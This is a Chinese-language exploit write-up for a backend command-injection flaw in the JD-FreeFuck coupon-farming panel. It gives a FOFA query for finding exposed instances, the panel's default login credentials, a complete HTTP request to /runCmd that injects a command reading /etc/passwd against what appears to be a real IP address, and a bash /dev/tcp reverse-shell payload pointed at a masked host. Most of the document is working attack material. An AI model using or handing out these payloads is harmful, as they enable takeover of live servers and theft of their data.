 # JD-FreeFuck-后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

> [!NOTE]
>
> JD-FreeFuck

## FOFA

> [!NOTE]
>
> title="京东薅羊毛控制面板"

## 漏洞复现

访问后登录页面如下

![](JD-FreeFuck-后台命令执行漏洞.assets/1627363085461477.jpg)

默认账号密码为 

**useradmin/supermanito**

![](JD-FreeFuck-后台命令执行漏洞.assets/1627363085764645.jpg)

发送如下请求包执行命令

```
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](JD-FreeFuck-后台命令执行漏洞.assets/16273630860578618.jpg)

反弹shell

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](JD-FreeFuck-后台命令执行漏洞.assets/1627363086412261.jpg)

## 参考文章

@桃花心 师傅

https://www.secquan.org/Discuss/1071932#reply3